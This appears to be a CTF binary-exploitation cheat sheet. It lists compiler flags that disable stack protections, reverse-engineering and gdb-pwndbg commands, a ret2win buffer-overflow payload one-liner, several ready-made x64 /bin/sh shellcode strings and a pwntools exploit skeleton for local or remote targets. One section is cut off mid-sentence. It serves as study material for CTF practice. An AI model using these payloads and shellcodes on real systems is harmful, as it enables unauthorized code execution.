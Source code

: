 # CTF Tools

## Binary Exploitation

### GCC flags
- `-fno-stack-protector` -> disable canary
- `-no-pie` -> no PIE
- `-m32` -> compiles in 32 bit (i386)
- `-z execstack` -> disable NX and stack is executable now

A nice way to use this is 
```bash
gcc file.c -o vuln -fno-stack-protector -z execstack -no-pie -m32
```

### tmux
- `tmux`
- `ctrl + %, v` -> vertical split
- `ctrl + %, <-/->` -> change to left of right screen

### Know your file
`checksec --file <filename>` or `checksec file=filename

`file <filename>`

`rabin2 -I <filename>`

### Tracing
Checks what the program's doing with the input
`ltrace` and `strace`(for remote servers)
`ltrace ./filename`

### Reading the functions inside
- `info functions`
- `rabin2 -i <filename>`
- `objdump -d ./chal | grep '<.*>:'`
- `objdump -D <filename> | grep <funcitonname>`
- `nm -u <filename>`

USER GENERATED FUNCTIONS:

```bash
rabin2 -qs <filename> | grep -ve imp -e ' 0 '
```

### Strings inside binary
```bash
rabin2 -z <filename>
```

### gdb-pwndbg
(much faster than loading ghidra and doing stuff from there)
- `file <filename>` -> to open the file
- `info functions` -> show all the function names along with their addresses. (you can use this with `objdump -D <filename> | grep <funcitonname>`, which is much better)
- `disassemble main` -> disassemble the main funciton
- `disassemble <functionname>` -> disassemble particular functions

- `cyclic <number>` -> useful for testing when the seg faults
- `r` -> runs the function
- `cyclic -l <EIP-data>` -> lookup the amount of the data that can be inputted where overflow won't occur in little endian
- `python2 -c 'print "A"*28 + "\x82\x91\x04\x08"' > payload` -> 28 is the eip data and then the other code.
- `./ret2win < payload` -> input payload into the file
- instead, you can just send using `run < payload` inside of gdb-pwndbg
- `break *addr` -> add a breakpoint at an addr
- `delete breakpoints` -> delete breakpoints

**IP/EIP/RIP** -> Data where you can go without seg fault (data that can be stored in the variable/line)
**IP/EIP/RIP** -> Stores the address of the next function that must be executed (overflow this)

### python2 (not python3)
```python
python2 -c 'code here'
```

### redare
`r2 filename`
`aa` -> analyze all flags
`afl` -> all functions list

### Overwriting Variables on the Stack
- Replace the

### Shellcodes (NX disabled)
usage:
```python
payload = shellcode + b"A" * (80 - len(shellcode)) + b"B"*8 + p64(int(buff_addr, 16))
```
8 bytes for skipping RBP
`x64` linux `23` bytes:
```elixir
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

`x64` linux `24` bytes:
```elixir
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```

`x86_64` linux `22` bytes:
```elixir
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

`x86_64` linux `27` bytes:
```elixir
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

### Offset in libc
```bash
strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
```

```bash
readelf -Ws /usr/lib/x86_64-linux-gnu/libc.so.6 | grep printf
```


### PWN Tools
```python
from pwn import *
import sys
import os
from pprint import pprint

if len(sys.argv) <= 2:
    p = process("./" + sys.argv[1])
    cmd = "ldd " + sys.argv[1] + " | grep \"libc.so.6\" | awk '{print $3}'"
    libcpath = os.popen(cmd).read()[:-1]
    libc = ELF(libcpath)
else:
    remote_addr = sys.argv[2].split(":")[0]
    remote_port = sys.argv[2].split(":")[1]
    p = remote(remote_addr, int(remote_port))

elf = ELF(sys.argv[1])
rop = ROP(elf)
```

Usage: `python3 exploit.py <filename>` or `python3 exploit.py 10.10.196.1:4000`

- Finding address of main: `elf.symbols['main']`
- Finding symbols: `elf.sym`
- Finding gadgets: `rop.find_gadget(['pop rdi', 'ret']))[0]`
- Finding Strings: `elf.search('/bin/cat flag.txt')` (Just use `rabin2 -z split`)

### Calling Conventions (Linux)
- 64-bit: `RDI, RSI, RDX, RCX, R8, R9, Stack`
- 32-bit: Stack
